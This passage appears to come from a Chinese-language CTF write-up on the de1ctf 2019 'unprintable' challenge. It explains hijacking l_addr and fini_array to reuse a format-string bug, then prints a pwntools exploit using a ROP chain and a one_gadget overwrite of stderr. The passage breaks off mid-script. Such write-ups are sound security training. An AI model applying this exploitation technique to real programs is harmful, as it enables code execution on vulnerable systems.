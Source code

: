 可以看到将会调用`[0x600e38+8]+[rbx]`处的值对应的函数，而其中rbx即是上面`_dl_init+139`前一个地址，该地址即为l_addr的地址。

利用该漏洞，可以通过修改l_addr，从而再一次进行read和printf，并且这一次在栈上我们可以发现一些有用的东西：

[![](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025203748.png)](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025203748.png)

通过劫持这几个地址即可重复的实现格式化字符串漏洞的利用。接着通过编写rop串将stderr修改为onegadget然后执行即可。

exp：

```
from pwn import *
p = process("./de1ctf_2019_unprintable",env=`{`'LD_PRELOAD':'./libc-2.23.so'`}`)
libc = ELF("./libc-2.23.so")

#获取stack地址，并计算出要修改的地址
p.recvuntil("0x")
stack = int(p.recv(12),16)-0x110-8
print hex(stack)

#劫持l_addr，从而在buf中伪造fini_array，再一次读并输出格式化字符串
payload = "%"+str(0x298)+"c%26$hn"
payload = payload.ljust(0x10,'\x00')+p64(0x4007A3)
p.send(payload)


sleep(1)
pop_rsp = 0x000000000040082d
csu_pop = 0x000000000040082A
csu_call = 0x0000000000400810
stderr_ptr_addr = 0x0000000000601040
stdout_ptr_addr = 0x0000000000601020
one = [0x45226,0x4527a,0xf0364,0xf1207]
one = [0x45216,0x4526a,0xf02a4,0xf1147]
one_gadget = one[3]
offset = one_gadget - libc.sym['_IO_2_1_stderr_']
adc_p_rbp_edx = 0x00000000004006E8

rop_addr = 0x0000000000601260
tmp = stderr_ptr_addr-0x48

#利用adc将stderr修改为one_gadget
rop = p64(csu_pop)
rop += p64(tmp-1) #rbx
rop += p64(tmp) #rbp
rop += p64(rop_addr + 0x8 * 6 - tmp * 8 + 0x10000000000000000) #r12
rop += p64(offset + 0x10000000000000000) #r13
rop += p64(adc_p_rbp_edx) #r14
rop += p64(0) #r15
rop += p64(csu_call)

#call onegadget
rop += p64(csu_pop)
rop += p64(0) #rbx
rop += p64(1) #rbp
rop += p64(stderr_ptr_addr) #r12
rop += p64(0) #r13
rop += p64(0) #r14
rop += p64(0) #r15
rop += p64(csu_call)

rop_addr = rop_addr-0x18
addr1 = rop_addr&amp;0xffff+0x10000
addr2 = (rop_addr&gt;&gt;16)&amp;0xffff+0x10000
addr3 = (rop_addr&gt;&gt;32)&amp;0xffff+0x10000
```